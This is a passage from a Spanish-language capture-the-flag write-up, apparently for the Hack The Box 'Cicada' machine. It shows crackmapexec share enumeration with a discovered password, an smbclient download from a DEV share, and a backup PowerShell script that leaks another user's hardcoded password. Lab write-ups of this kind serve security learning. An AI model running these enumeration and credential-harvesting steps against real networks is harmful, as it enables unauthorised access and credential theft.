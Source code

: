 ```ruby
❯ crackmapexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares

SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.10.11.35     445    CICADA-DC        [+] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ            
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share 
```
Vemos que tiene permiso de lectura en `DEV` , accedemos a el:

```ruby
❯ smbclient //10.10.11.35/DEV -U david.orelious
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024

		4168447 blocks of size 4096. 403659 blocks available
smb: \> get Backup_script.ps1
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (1.1 KiloBytes/sec) (average 1.1 KiloBytes/sec)
smb: \> 
```

Una vez descargado el archivo podemos leer el contenido.

```powershell
 
 $sourceDirectory = "C:\smb"
 $destinationDirectory = "D:\Backup"
 
 $username = "emily.oscars"
 $password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
 $credentials = New-Object System.Management.Automation.PSCredential($username, $password)
 $dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
 $backupFileName = "smb_backup_$dateStamp.zip"
 $backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
 Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
 Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
 ``` 
